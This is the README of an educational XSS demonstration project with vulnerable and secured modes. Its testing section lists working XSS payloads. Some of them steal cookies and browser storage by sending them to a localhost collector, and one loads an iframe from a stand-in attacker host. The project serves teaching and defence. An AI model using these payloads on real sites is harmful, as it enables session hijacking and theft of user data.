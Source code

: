 # JavaScript XSS Playground

This project demonstrates what XSS (Cross-site Scripting) is and how to prevent it using input sanitization. It is designed for educational purposes to help developers understand the risks of XSS attacks and the importance of secure coding practices.



**- testing the 1st tested payload**

![testing the 1st tested payload](https://imgur.com/TqDvpzu.png)

**- entering payloads in SECURED mode**

![entering payloads in SECURED mode](https://imgur.com/QNSfU2r.png)

**- after running server.js; enter the tested payload 4 and 5 into the text field**

![after running server.js; enter the tested payload 4 and 5 into the text field](https://imgur.com/UMWvQz3.png)

**- after entering see the stolen data from server.js console**

![after entering see the stolen data from server.js console](https://imgur.com/E4OOnXG.png)


## Features

- **Vulnerable Mode**: Simulates a working XSS vulnerability to demonstrate how attacks occur.
- **Secured Mode**: Shows how input sanitization can effectively prevent XSS attacks.
- **Toggle**: Easily switch between "Vulnerable" and "Secured" modes to compare behaviors.

## Concepts Learned

- Understanding XSS attacks and their impact.
- Implementing input validation and sanitization techniques.
- Recognizing the importance of secure coding practices.

## How to Use

1. Open `index.html` in a browser.
2. Enter some text in the input field and submit.
3. Toggle between "Vulnerable" and "Secured" modes to observe the difference in behavior.

## Testing the Project

1. Open `index.html` in a browser.
2. Use the following payloads in the input field to test XSS vulnerabilities:
   - `<img src="x" onerror="alert('XSS Attack!')">`
   - `<script>document.body.innerHTML = '<h1>Hacked by Attacker</h1>';</script>`
   - `<a href="https://www.youtube.com/" target="_blank">Click here</a>`
   - `<script>const img = document.createElement('img'); img.src = 'http://localhost:3000/steal?session=' + document.cookie; document.body.appendChild(img);</script>`
   - `<script>const data = { localStorage: JSON.stringify(localStorage), sessionStorage: JSON.stringify(sessionStorage) }; fetch('http://localhost:3000/steal', { method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify(data) });</script>`
   - `<iframe src="http://attacker.com/steal-session" style="display:none;"></iframe>`
   - `<div id="target" onmouseover="alert('XSS via Event Listener')">Hover over me</div>`

3. Toggle between "Vulnerable" and "Secured" modes to observe how the application handles these payloads.

## Educational Purpose

This project is designed to educate developers about the risks of XSS attacks and the importance of input validation and sanitization. It provides hands-on experience with real-world attack scenarios and demonstrates effective prevention techniques.

## Disclaimer

This project is for educational purposes only. Do not use the vulnerable mode in a production environment. Always validate and sanitize user input to prevent malicious scripts from being executed.
